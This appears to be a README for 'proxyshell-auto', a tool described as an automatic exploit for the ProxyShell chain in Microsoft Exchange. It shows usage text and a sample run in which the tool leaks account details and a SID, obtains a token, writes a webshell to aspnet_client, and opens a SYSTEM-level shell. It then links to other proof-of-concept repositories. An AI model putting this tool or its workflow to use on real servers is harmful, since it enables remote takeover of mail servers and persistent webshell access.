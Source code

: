

```
fix Udyz/proxyshell-auto sleep bug
```



# proxyshell-auto

```
usage: proxyshell.py [-h] -t T

Automatic Exploit ProxyShell

optional arguments:
  -h, --help  show this help message and exit
  -t T        Exchange URL
  
Usage: 
C:\>python proxyshell.py -t exchange.lab.local
fqdn exchange.lab.local
+ admin@exchange.lab.local
legacyDN /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=admin
leak_sid S-1-5-21-3626636094-1513906978-1376853856-1156
token VgEAVAdX[cut]AAAA==
set_ews Success with subject badqxybxtecxuttq
write webshell at aspnet_client/tjmzk.aspx
<Response [404]>
<Response [404]>
nt authority\system
SHELL>
```
# Reference:
- https://github.com/dmaasland/proxyshell-poc
- https://github.com/ktecv2000/ProxyShell
- https://y4y.space/2021/08/12/my-steps-of-reproducing-proxyshell/-
- https://srcincite.io/blog/2021/08/25/pwn2own-vancouver-2021-microsoft-exchange-server-remote-code-execution.html

